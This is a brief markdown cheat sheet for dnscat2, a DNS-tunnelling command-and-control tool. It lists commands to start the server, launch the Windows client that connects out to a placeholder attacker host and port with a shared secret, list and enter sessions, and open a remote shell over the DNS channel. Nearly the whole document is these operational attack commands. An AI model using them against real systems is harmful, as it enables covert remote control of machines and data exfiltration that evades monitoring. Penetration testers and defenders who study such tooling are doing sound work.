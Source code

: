 ### source
https://github.com/iagox86/dnscat2  

### start server without specific domain
```
ruby dnscat2.rb
```

### start exe client
```
.\dnscat2 --dns server=<lhost>,port=<lport> --secret=<secret>
```

### start server for interaction with dnscat2-powershell
```
ruby dnscat2.rb --security=open --no-cache --dns domain=<domain>
```


### list sessions
```
dns> session
```

### interact with session
```
dns> session -i <id>
```

### start shell
```
shell
CTRL + z
dns> session -i <newId>
```

